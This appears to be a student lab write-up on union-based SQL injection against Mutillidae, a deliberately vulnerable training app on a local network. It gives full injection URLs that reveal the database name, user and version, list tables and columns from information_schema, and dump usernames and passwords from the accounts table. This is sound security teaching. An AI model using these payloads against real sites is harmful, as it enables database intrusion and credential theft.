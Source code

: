 
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/MaheshS03/EH-Ex-08/assets/128498431/de8dd947-e5f5-4583-8aa6-f47cbbdc5667)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/MaheshS03/EH-Ex-08/assets/128498431/52b5dbe5-1000-4294-a8c5-4a4bdcee023a)

The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.


![image](https://github.com/MaheshS03/EH-Ex-08/assets/128498431/1cd2ae74-de62-4976-ab75-b2adceb7d04d)




The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

![image](https://github.com/MaheshS03/EH-Ex-08/assets/128498431/f4e0aa43-4ab2-48e0-8d29-682c133ff65d)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
